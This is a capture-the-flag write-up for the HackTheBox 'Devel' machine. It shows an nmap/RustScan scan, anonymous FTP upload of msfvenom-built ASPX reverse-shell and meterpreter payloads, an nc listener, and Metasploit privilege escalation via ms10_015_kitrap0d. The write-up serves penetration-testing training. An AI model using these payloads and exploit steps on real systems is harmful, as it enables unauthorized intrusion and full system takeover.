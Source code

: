 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f5589512-0d6a-4e0a-b710-18590d01b0ff)

https://app.hackthebox.com/machines/Devel

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

Starting the enumeration phase, I performed a quick RustScan and found only two open ports: 21 (FTP) and 80 (HTTP).

```bash
sudo rustscan -a 10.10.10.5 -- -sC -sV -vv -oN devel_nmap
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/ff1684db-3262-466b-b484-dfdcba244917)

```
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan results showed that anonymous FTP login was allowed, and there was a directory named "aspnet_client" present in the FTP server. Additionally, there was a Microsoft IIS web server running on port 80.

Upon checking the web server, I only found the IIS welcome image with no other significant content.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f2859949-8fcd-4faf-ac45-fab773bcb1b6)

I then performed Sub-directory enumeration using tools like GoBuster and FFUF didn't yield any useful results.

## Initial Access:

Proceeding with the enumeration, I decided to explore the FTP server as an anonymous user.

```bash
FTP -vv 10.10.10.5
```

The FTP directory revealed another folder named "system_web," which contained yet another folder named "2_0_50727."

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/214a8c96-bade-4167-8854-a39b36e4d1a7)

Although subsequent sub-directory enumerations didn't provide any new findings, I speculated that since the FTP files and directories might be accessible from the web server as well, attempting to access the "aspnet_client" folder would lead to a 403 Forbidden error. This confirmed the availability of FTP files and directories on the web server.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/b457bb85-5c4e-49f1-b38f-d7946b18fedf)

To gain initial access, I created an ASP-based reverse shell using MSFVenom, taking advantage of the "aspnet_client" folder on the FTP server. After uploading the reverse shell to the server using the PUT command.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=ip_here LPORT=1337 -e x86/shikata_ga_nai -f aspx -o adv.aspx

PUT dawn.aspx
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/6a571e08-d1d4-4c8d-aee2-c551af1fd50e)

I accessed the uploaded file from my web browser & successfully obtained a reverse shell running as the 'IIS web' user. 🙂

```bash
nc -lnvp 1337
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9d704370-4b41-4dbc-824d-5ab4bee2d8c4)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e10e0407-c1f5-4e88-9ce6-7c5c33f383c4)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Metasploit:

As my current privileges were insufficient to download files using standard tools such as curl, wget & Invoke-WebRequest, I decided to further exploit the system using Metasploit. First, I created a meterpreter payload and initiated Metasploit.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 LHOST=10.10.14.128 LPORT=1337 -f aspx -o narnia.aspx

msfconsole
```

Setting the necessary options in Metasploit and starting the listener, I executed the payload and gained a meterpreter session.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/03cfe5d8-781a-4adb-8182-1d3d0c593722)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/8fc48b78-91ca-44f1-9ce5-e338c9db229a)

After having the access, I used a module called "post/multi/recon/local_exploit_suggester" to identify potential privilege escalation vectors.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/d014b2dd-accf-49f6-be95-b36597205ec5)

After selecting session option '1' and running the module, several possible privilege escalation exploits were suggested:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f23b6804-0c94-4c65-ae0b-037e1eefc142)

After the task is completed I got almost 15 exploits which appears to be vulnerable:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9ac95212-7dbb-4c38-b8e7-45e989eec342)

## Privilege Escalation:

The first exploit suggested, "bypass_uac," wouldn't work as my current user wasn't in the administrator group.

I chose not to use the "cve_2020_0787" exploit since it wouldn't be ethical to exploit a vulnerability that didn't exist at the time the box was released.

However, the "ms10_015_kitrap0d" exploit seemed promising for privilege escalation. Thus, I executed it.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/18bbb9fd-ac87-4f5b-8a3e-e38305e17f06)

Running the exploit resulted in another meterpreter session running with "NT Authority \System" privileges : (pwn3d! 🙂)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/1b79cab2-5c49-4353-9a96-bc2a26626822)

With escalated privilege level, I gained access to sensitive files and directories, including both the user and root flags.
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/451de12e-683b-489a-8882-fe5bbba8ed8c)













